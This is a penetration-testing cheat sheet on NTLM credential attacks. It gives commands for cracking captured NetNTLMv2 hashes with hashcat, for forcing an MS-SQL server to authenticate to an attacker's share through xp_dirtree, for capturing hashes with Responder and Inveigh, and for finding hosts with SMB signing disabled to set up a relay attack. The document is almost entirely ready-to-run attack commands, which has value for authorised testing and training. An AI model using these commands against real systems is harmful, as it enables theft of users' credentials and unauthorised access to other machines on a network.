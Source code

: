 ```shell
hashcat -m 5600 /usr/share/responder/logs/HTTP-NTLMv2-172.16.1.100.txt /usr/share/wordlists/rockyou.txt -o cracked.txt
```

**Getting an NetNTLMv2 Hash from MS-SQL (port 1433)**

```
mssqlclient.py -p 1433 reporting@10.10.10.125 -windows-auth
```

```
responder -I tun0
```

```sql
exec master..xp_dirtree '\\10.10.14.2\test'
```

**Getting an NetNTLMv2 Hash from an SSRF Vulnerability**

```
responder -I tun0
```

## Inveigh

```powershell
Import-Module .\Inveigh.ps1
(Get-Command Invoke-Inveigh).Parameters
```

```powershell
Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y
```

We can hit the `esc` key to enter the console while Inveigh is running.

After typing `HELP` and hitting enter, we are presented with several options.

We can quickly view unique captured hashes by typing `GET NTLMV2UNIQUE`.

We can type in `GET NTLMV2USERNAMES` and see which usernames we have collected. This is helpful if we want a listing of users to perform additional enumeration against and see which are worth attempting to crack offline using Hashcat.

# SMB Relay Attack

An SMB relay attack is where an attacker captures a users NTLM hash and then relays it to access another machine on the network that has SMB signing disabled.

If the account being relayed has local administrative privileges on the box, you can utilize their privileges to dump SAM hashes or to get a SYSTEM shell on the host.

**Finding Hosts with SMB Signing Disabled**

```shell
nxc smb 172.16.1.0/24 --gen-relay-list smb_signing_disabled.txt
```
